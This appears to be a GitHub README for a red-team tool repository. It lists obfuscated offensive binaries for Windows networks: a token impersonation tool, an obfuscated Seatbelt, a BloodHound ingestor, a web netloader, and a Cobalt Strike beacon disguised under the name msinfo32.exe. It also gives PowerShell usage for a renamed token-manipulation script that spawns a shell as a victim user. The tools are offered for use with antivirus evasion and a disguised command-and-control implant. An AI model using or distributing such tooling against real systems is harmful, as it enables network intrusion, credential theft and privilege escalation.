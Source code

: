 # sharp releases
Sharp tings for cutting through networks. Most binaries have some sort of obfuscation. Recommend loading them via netloader (named loadyload.exe on this repo).

## Binaries:

- SharpImpersonation.exe - token impersonation in C#  (not obfuscated)
- betterBelt.exe - SeatBelt but obfuscated
- doggo.ps1 - Bloodhound injestor
- loadyload.exe - netloader to load C# binaries via the web or local paths. Web better as don't need to obfuscate target exe.
- msinfo32.exe - cobalt strike beacon. DONT RUN THIS unless you want RT to go through your stuff :)
- toknock.ps1 - Invoke-TokenManipulation but obfuscated. Usage below
```
Import-Module .\toknock.ps1
pedagogic -Enumerate
pedagogic -Username "DOMAIN\victim_user" -CreateProcess cmd.exe
```

Enjoy.


